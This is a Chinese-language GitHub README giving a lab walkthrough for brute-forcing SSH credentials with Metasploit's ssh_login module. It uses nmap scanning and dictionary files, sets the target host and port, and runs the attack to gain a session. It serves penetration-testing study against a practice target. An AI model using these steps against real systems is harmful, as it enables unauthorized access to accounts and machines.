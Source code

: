 # Brute-Force SSH login
使用Metasploit暴力猜測ssh的登入帳密。

## **環境&工具**
* 一台Kali Linux
* 一台有ssh服務的靶機
* 一個字典檔

## **破解流程**
* step1：針對目標機器做掃描，掃描這台主機有開那些服務
  * 這邊使用nmap這套工具做掃描，檢測目標主機是否在線上、port開放的情況
  * nmap其他相關指令請參考https://zh.wikipedia.org/zh-tw/Nmap
    > ```shell
    > namp -sV xxx.xxx.xxx.xxx
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/1.png)
* step2：開啟Metasploit
    > ```shell
    > msfconsole
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/2-1.png)
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/2-2.png)
* step3：開啟Metasploit這套工具尋找模組腳本
  * 這邊使用模組名稱是`auxiliary/scanner/ssh/ssh_login`
  
    > ```shell
    > search ssh_login
    > use auxiliary/scanner/ssh/ssh_login
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/3-1.png)
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/3-2.png)
* step4：查看使用的模組腳本需要設定的參數
  * 這邊四個重要的參數必須設定，`目標主機IP`、`目標主機port號`、`使用者帳號`、`使用者密碼`
  
    > ```shell
    > option
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/4.png)
* step5：設定目標主機IP
    > ```shell
    > set rhost xxx.xxx.xxx.xxx
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/5.png)  
* step6：目標主機port號
    > ```shell
    > set rport xx
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/6.png)
* step7：設定使用者帳號密碼
  * 設定使用者帳號及使用者密碼的方式有三種，`利用username及password的字典檔`、`分別給username及password的字典檔`、`直接設定username及password`

  * 利用username及password的字典檔  
    > 檔案格式為
    > 
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/7.png)   
    > ```shell
    > set userpass_file [檔案路徑]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/8.png)    

  * 分別給username及password的字典檔 
    > 檔案格式為
    > 
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/9.png)   
    > ```shell
    > set user_file [檔案路徑]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/10.png)   
    > ```shell
    > set pass_file [檔案路徑]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/11.png)     
  
  * 直接設定username及password  
    > ```shell
    > set username [名稱]
    > set password [密碼]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/12.png)   

  ```
  設定使用者帳號密碼，可使用字典檔也可自行輸入，可搭配自行輸入及字典檔的組合，更快速的找到登入的帳密。
  ```

* step8：執行暴力猜測ssh的登入帳密
    > ```shell
    > exploit
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/13.png)
  * 執行成功後會有一個session存在著
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/14.png)

## **References**
* https://charlesreid1.com/wiki/Metasploitable/SSH/Exploits
